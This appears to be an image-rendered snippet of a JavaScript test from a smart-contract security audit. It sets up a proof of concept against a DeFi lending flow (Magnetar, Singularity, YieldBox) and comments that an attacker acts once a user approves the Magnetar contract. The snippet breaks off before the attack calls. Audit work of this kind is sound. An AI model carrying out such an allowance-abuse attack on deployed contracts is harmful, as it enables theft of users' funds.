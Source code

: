 ```
                .mul(10)
                .mul(__wethUsdcPrice.div((1e18).toString()));

            // We get asset
            await weth.freeMint(wethMintVal);
            await usdc.connect(eoa1).freeMint(usdcMintVal);

            // We lend WETH as deployer
            await approveTokensAndSetBarApproval();
            await wethDepositAndAddAsset(wethMintVal);

            await usdc.connect(eoa1).approve(magnetar.address, usdcMintVal);
            await wethUsdcSingularity
                .connect(eoa1)
                .approveBorrow(magnetar.address, ethers.constants.MaxUint256);

            await magnetar
                .connect(eoa1)
                .depositAddCollateralAndBorrowFromMarket(
                    wethUsdcSingularity.address,
                    eoa1.address,
                    usdcMintVal,
                    borrowAmount,
                    true,
                    true,
                    {
                        withdraw: true,
                        withdrawLzFeeAmount: 0,
                        withdrawOnOtherChain: false,
                        withdrawLzChainId: 0,
                        withdrawAdapterParams: ethers.utils.toUtf8Bytes(''),
                    },
                );

            const userBorrowPart = await wethUsdcSingularity.userBorrowPart(
                eoa1.address,
            );

            const collateralShare =
                await wethUsdcSingularity.userCollateralShare(eoa1.address);
            const collateralAmount = await yieldBox.toAmount(
                usdcAssetId,
                collateralShare,
                false,
            );
            const usdcBalanceBefore = await usdc.balanceOf(eoa1.address);

            await weth.connect(eoa1).freeMint(userBorrowPart.mul(2));

            //@audit-info => User approves Magnetar contract to spend the asset that will be used to repay the debt
            await weth
                .connect(eoa1)
                .approve(magnetar.address, userBorrowPart.mul(2));

            
            //@audit-info => As soon as Magnetar get allowance, the attacker executes his attack
            const assetId = await wethUsdcSingularity.assetId();

            console.log("asset in YieldBox owned by Magnetar - BEFORE: ", await yieldBox.balanceOf(magnetar.address,assetId));
            console.log("asset in YieldBox owned by User - BEFORE: ", await yieldBox.balanceOf(eoa1.address,assetId));
```